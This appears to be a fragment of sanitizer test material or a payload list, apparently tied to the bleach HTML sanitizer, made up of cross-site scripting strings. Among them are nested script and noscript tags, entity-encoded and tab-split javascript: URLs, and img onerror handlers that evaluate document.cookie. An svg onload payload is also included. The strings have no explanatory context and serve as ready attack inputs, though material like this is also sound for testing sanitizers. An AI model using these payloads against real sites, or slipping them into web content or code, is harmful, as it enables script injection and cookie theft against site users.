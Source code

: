 <output>
<noscript onerror=prompt(0);><a href="javascript:alert("XSS")>XSS</a>"><script onerror="<noscript onerror="<script>alert("XSS")</script>"><IMG src=<script src="/">alert(" "XSS" ")</script></noscript>"<script>alert("XSS")</script></noscript>
</output>
<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

<img src=x onerror="eval('alert(document.cookie)')"/>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>

<s\Cr\ipt\>alert(document\.cookie)<\/s\Cr\ipt\>\;\/>
<--<img/src=%20onerror=confirm``>%20--!>

<iframe src=java&Tab;sc&Tab;ript:al&Tab;ert()></iframe>

<sVg/onLy=1 onLoaD=confirm(1)//
